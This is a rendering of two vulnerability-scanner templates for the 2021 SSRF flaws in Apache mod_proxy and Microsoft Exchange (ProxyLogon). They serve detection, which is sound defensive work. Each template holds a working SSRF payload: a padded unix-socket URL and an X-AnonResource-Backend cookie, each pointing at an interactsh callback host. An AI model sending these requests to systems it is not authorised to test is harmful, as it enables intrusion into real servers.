 - Apache 2.4.48 and below contain an issue where uri-path can cause mod_proxy to forward the request to an origin server chosen by the remote user.
- severity - critical
- tags - cve,cve2021,ssrf,apache,mod-proxy,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/?unix:{{repeat("A", 7701)}}|http://interact.sh/

### Matchers

**Type - word**

- words
  1. Interactsh Server

---

# Microsoft Exchange Server SSRF Vulnerability

## Description

- This vulnerability is part of an attack chain that could allow remote code execution on Microsoft Exchange Server. The initial attack requires the ability to make an untrusted connection to Exchange server port 443. Other portions of the chain can be triggered if an attacker already has access or can convince an administrator to open a malicious file. Be aware his CVE ID is unique from CVE-2021-26412, CVE-2021-26854, CVE-2021-26857, CVE-2021-26858, CVE-2021-27065, and CVE-2021-27078.
- severity - critical
- tags - cve,cve2021,ssrf,rce,exchange,oast,microsoft,kev

## Requests

### Step - 1

```
GET /owa/auth/x.js HTTP/1.1
Host: {{Hostname}}
Cookie: X-AnonResource=true; X-AnonResource-Backend={{interactsh-url}}/ecp/default.flt?~3;

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---